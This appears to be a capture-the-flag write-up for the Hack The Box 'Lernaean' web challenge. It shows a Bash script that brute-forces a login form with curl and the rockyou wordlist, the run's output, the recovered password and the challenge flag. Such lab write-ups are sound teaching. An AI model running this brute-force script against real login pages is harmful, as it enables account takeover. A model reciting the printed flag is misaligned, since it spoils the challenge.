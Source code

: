 # [Grav3m1ndbyte's Resources Blog](/index.html) > [HTB Machine Walkthroughs](/HTB-Machines.html)


![Grav3m1ndbyte HTB Badge](https://www.hackthebox.eu/badge/image/75471)





# Lernaean

![Lernaean Infocard](/images/Lernean.png)

**URL:** http://docker.hackthebox.eu:31027

## Overview

Not much of an "infocard" like with machines but at least you can see what it is about and the host and port to test. 

Basically, this challenge looks to be dynamic at first when you start testing the page. The goal is to try and "guess" the administrator password.


**Let's get started!**

## The Challenge

![Lernaean Page](/images/Lernean_Page.png)

At first glance, it doesn't look like much so I thought of looking at the source code, but not much either except for the password field where you can send a password through a HTTP POST Method. But we know this already!

```
<html>
<head>
    <title>Login - Lernaean</title>
</head>
<body style="background-color: #cd4e7b;">
    <center>
        <br><br><br>
        <h1><u>Administrator Login</u></h1>
        <h2>--- CONFIDENTIAL ---</h2>
        <h2>Please do not try to guess my password!</h2>
        <form method="POST">
            <input type="password" name="password"><br><br>
            <input type="submit" value="Submit">
        </form>
    </center>
</body>
</html>
```

But also, I thought of lookingfor anything interesting in the HTTP Request and Response, but nothing especial.

![Lernaean Page](/images/Lernean_headers.png)

Tried as well a basic SQL Injection but nothing either.

![Lernaean SQLi](/images/Lernean_headers_SQL.png)

![Lernaean SQLi 2](/images/Lernean_headers_SQL2.png)

At this point, I can try with a random passwword even though it didn't give me much above. I tried *test123*, but didn't get anything other than an *Invalid password!* message at the top.

![Lernaean Test 2](/images/Lernean_test_resp2.png)

```
Invalid password!
<html>
<head>
    <title>Login - Lernaean</title>
</head>
<body style="background-color: #cd4e7b;">
    <center>
        <br><br><br>
        <h1><u>Administrator Login</u></h1>
        <h2>--- CONFIDENTIAL ---</h2>
        <h2>Please do not try to guess my password!</h2>
        <form method="POST">
            <input type="password" name="password"><br><br>
            <input type="submit" value="Submit">
        </form>
    </center>
</body>
</html>
```

As you can see, the response didn't changed from before. Right now, I'm scratching my head and can only think of bruteforcing the page. What I'll do instead of relying on a tool, I will write my own Bash Script and see how far I can get to.

## Execution

The script will rely on using Curl and rockyou.txt. Also, the response will be sent to a file and will write over it through each iteration and compare the response against the word 'Invalid' from the previous response.

We know at this point we can send data to the password field in the HTTP Payload, so should be simple.

```
#!/bin/sh

ERROR="Invalid"
for PASS in $(cat /usr/share/wordlists/rockyou.txt)
do
        echo "\n### Testing password $PASS"

        (curl -X POST -d "password=$PASS" -s http://docker.hackthebox.eu:31027) > POST_Respose.txt

        grep -iq $ERROR ./POST_Respose.txt 
        if [ $? -ne 0 ]; then
                echo "\n"
                cat ./POST_Respose.txt
                exit 0;
        else
                echo "\nERROR: Invalid Password!"
        fi
done

```

### Output Snippet:

```
kali@back0ff:~/Documents/HTB-Challenges/Lernean$ ./lernean.sh 

### Testing password 123456

ERROR: Invalid Password!

### Testing password 12345

ERROR: Invalid Password!

### Testing password 123456789

ERROR: Invalid Password!

### Testing password password

ERROR: Invalid Password!

### Testing password iloveyou

ERROR: Invalid Password!

.
.
.

### Testing password nicole1

ERROR: Invalid Password!

### Testing password 12345678910

ERROR: Invalid Password!
```

### Flag:

AND right after testing with *12345678910*, it tests **leonardo** which seems to be the password. See below:

```
### Testing password leonardo


<h1 style='color: #fff;'>HTB{l1k3_4_b0s5_s0n}</h1><script type="text/javascript">
                   window.location = "noooooooope.html"
              </script>
<html>
<head>
    <title>Login - Lernaean</title>
</head>
<body style="background-color: #cd4e7b;">
    <center>
        <br><br><br>
        <h1><u>Administrator Login</u></h1>
        <h2>--- CONFIDENTIAL ---</h2>
        <h2>Please do not try to guess my password!</h2>
        <form method="POST">
            <input type="password" name="password"><br><br>
            <input type="submit" value="Submit">
        </form>
    </center>
</body>
</html>
```

As you notice in the response, we got the flag which is **HTB{l1k3_4_b0s5_s0n}**

Hope you all enjoyed this!





